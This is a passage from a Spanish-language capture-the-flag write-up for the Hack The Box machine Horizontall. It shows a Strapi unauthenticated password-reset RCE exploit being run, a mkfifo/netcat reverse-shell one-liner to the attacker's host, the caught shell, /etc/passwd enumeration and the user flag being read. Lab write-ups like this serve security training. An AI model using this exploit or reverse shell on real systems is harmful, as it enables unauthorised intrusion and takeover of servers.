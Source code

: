 ## Acceso a la máquina

No conozco la versión de Strapi que se está utilizando, pero decido probar el último exploit de la lista, que permite una ejecución remota de código sin necesidad de estar autenticado. Compruebo la funcionalidad del exploit y veo que se aprovecha de un error a la hora de realizar un cambio de contraseña para establecer una nueva contraseña ("SuperStrongPassword1" en este caso) en el usuario administrador y así conseguir una RCE ciega (no veremos la salida de los comandos que ejecutemos). Por tanto, me envio una shell a mi máquina de atacante mediante `NetCat`.

```
# python3 strapi_rce.py http://api-prod.horizontall.htb

[+] Checking Strapi CMS Version running
[+] Seems like the exploit will work!!!
[+] Executing exploit


[+] Password reset was successfully
[+] Your email is: admin@horizontall.htb
[+] Your new credentials are: admin:SuperStrongPassword1
[+] Your authenticated JSON Web Token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MywiaXNBZG1pbiI6dHJ1ZSwiaWF0IjoxNjM1MDA3MDMxLCJleHAiOjE2Mzc1OTkwMzF9.yF54Ajvxl1o6HhEKwx7uevlLCJNyEzQEZltPT6soDh8


$> rm /tmp/f;mkfifo /tmp/f;cat /tmp/f | /bin/bash -i 2>&1 | nc 10.10.14.159 443 >/tmp/f




#  nc -lvnp 443

listening on [any] 443 ...
connect to [10.10.14.159] from (UNKNOWN) [10.10.11.105] 44000
bash: cannot set terminal process group (1784): Inappropriate ioctl for device
bash: no job control in this shell
strapi@horizontall:~/myapi$
```

El usuario mediante el que accedemos es "strapi". Enumerando el sistema veo que existe el usuario "developer" y que la primera flag se encuentra en su directorio personal, aunque con los permisos de "strapi" puedo visualizarla.

```
strapi@horizontall:~/myapi$ cat /etc/passwd | grep "sh$"

root:x:0:0:root:/root:/bin/bash
developer:x:1000:1000:hackthebox:/home/developer:/bin/bash
strapi:x:1001:1001::/opt/strapi:/bin/sh
strapi@horizontall:~/myapi$ cat /home/developer/user.txt
```

```
strapi@horizontall:/home/developer$ cat user.txt

0a4efbf88e27dbf4c7035536289baa9f
```
